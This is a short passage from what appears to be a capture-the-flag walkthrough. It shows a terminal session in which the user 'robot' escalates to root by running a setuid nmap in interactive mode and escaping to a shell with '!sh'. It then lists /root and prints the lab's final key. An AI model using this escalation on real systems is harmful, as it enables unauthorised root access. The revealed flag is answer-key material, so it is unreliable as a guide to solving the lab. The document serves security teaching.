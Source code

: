 And we are root:

```bash
robot@linux:/tmp$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# cd /root
cd /root
# ls -la
ls -la
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
